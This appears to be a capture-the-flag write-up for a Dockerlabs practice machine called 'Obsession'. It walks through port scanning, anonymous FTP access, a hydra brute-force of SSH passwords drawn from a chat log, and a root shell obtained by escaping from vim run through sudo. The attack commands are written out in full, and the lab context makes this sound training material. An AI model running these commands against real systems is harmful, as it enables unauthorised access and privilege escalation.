



# Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
Let's perform a more targeted scan of the services we have.
For the FTP service, we use this type of scan that tests some typical scripts:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```


We see that the default anonymous user and password are allowed, and we find two interesting files:
chat_gonza.txt and pendientes.txt.

Therefore, we download them to view the contents of both files with the following command once we're inside the
FTP service:



Similarly, we perform a more specific scan for the SSH service:

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```


However, we don't get anything relevant.

## Examining the Web Page
Let's see what's on the web page. If we examine the source code,
this appears:


## Examining files
Let's examine the two files we downloaded via the FTP service:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
We can see that there are three potential users "Gonza", "Russoski" and "Nagore", so we're going to try if any of these users allow us to access the SSH service. For this, I'm going to use the hydra tool and the "rockyou.txt" dictionary.

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```


## Intrusion

We see that we get russoski's password which is "iloveme", so we can now connect to the SSH service:




## Privilege Escalation

We execute the command:
```ruby
sudo -l
```


We see that we can execute the vim binary as root, so we go to GTFOBins and check if we can exploit it:

```ruby
sudo vim -c ':!/bin/sh'
```

